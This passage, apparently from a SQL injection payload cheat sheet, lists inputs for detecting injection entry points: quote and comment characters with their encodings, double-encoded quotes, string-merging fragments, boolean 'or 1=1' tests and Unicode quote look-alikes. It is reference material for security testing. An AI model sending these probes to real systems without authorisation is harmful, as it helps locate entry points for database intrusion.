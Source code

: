 ## Entry point detection

Detection of an SQL injection entry point
Simple characters

```sql
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content
```

Multiple encoding

```sql
%%2727
%25%27
```

Merging characters

```sql
`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP
```

Logic Testing

```sql
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification
